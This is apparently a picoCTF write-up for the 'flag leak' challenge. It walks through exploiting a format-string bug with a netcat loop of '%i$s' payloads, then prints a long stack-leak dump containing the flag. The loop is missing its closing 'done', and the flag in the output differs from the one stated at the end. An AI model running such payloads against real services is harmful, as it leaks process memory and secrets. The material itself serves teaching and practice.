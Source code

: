 ## flag leak

The challenge prompt is as follows:
```
Story telling class 1/2
Additional details will be available after launching your challenge instance.

debug info: [u:697741 e: p: c:269 i:295282]

This challenge launches an instance on demand.
```

The challenge instance is launched using:
```
nc saturn.picoctf.net 63889
```

This returns:
```
Tell me a story and then I'll tell you one >> heyyyyyyyyyyyyyyy
Here's a story -
heyyyyyyyyyyyyyyy
```

So it returns whatever is put as input.

String vulnerabilities need to be exploited to leak the flag successfully.

The following command is used:
```
for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 63889
```

This command loops from 0 to 999 for variable i, constructs a string format specifier ```%$i\$s``` :
* ```$i``` selects the argument i on the stack
* ```%s``` treats the argument as a string pointer and attempts to read it as a null-terminated string.

The remaining command pipes the output of the echo loop to the nc challenge instance.

The output is a long list which includes the flag:
```
Tell me a story and then I'll tell you one >> Here's a story -
%0$s
Tell me a story and then I'll tell you one >> Here's a story -
%1$s
Tell me a story and then I'll tell you one >> Here's a story -
story
Tell me a story and then I'll tell you one >> Here's a story -
ú,
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -
/
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -
.
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
storyTell me a story and then I'll tell you one >> Here's a story -
(gm
gm
gm
gm
gm
gm
gm
hm

Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -
setresgid
Tell me a story and then I'll tell you one >> Here's a story -
qY
Tell me a story and then I'll tell you one >> Here's a story -
e
Tell me a story and then I'll tell you one >> Here's a story -
setresgid
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
CTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}
Tell me a story and then I'll tell you one >> Here's a story -
Je
Tell me a story and then I'll tell you one >> Here's a story -
̓ii
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -
̓ii
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
$
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
(gm%gm%gm%gm%gm%gm%gm%hm%
Tell me a story and then I'll tell you one >> Here's a story -
story��
```

* Thus the flag is:
```
picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}
